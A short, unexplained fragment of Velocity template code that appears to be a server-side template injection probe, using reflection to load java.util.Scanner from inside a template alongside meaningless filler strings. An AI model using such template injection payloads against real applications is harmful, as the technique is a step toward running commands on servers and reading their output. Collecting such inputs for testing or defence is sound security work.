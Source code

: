 #set( $monkey = '888888888888888888888888=========99999999999999999999999' )
$monkey
#set ($e="exp")
#set($sc = $e.getClass().forName("java.util.Scanner"))
$monkey
"bbb"
